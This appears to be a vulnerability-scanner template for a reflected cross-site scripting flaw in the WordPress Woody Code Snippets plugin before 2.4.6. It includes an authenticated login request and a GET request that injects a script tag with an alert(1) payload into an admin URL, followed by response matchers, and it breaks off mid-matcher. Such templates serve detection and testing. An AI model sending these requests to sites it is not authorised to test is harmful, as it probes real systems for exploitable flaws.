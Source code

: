 # WordPress Woody Code Snippets \<2.4.6 - Cross-Site Scripting

## Description

- WordPress Woody Code Snippets plugin before 2.4.6 contains a cross-site scripting vulnerability. It does not escape generated URLs before outputting them back in an attribute.
- severity - high
- tags - xss,wp,wordpress,authenticated,woody,wpscan,wp-plugin

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/edit.php?post_type=wbcr-snippets&page=import-wbcr_insert_php&a"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. import-wbcr_insert_php&a\">\<script>alert(1)\</script>"
  2. Woody Code Snippets Import
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**
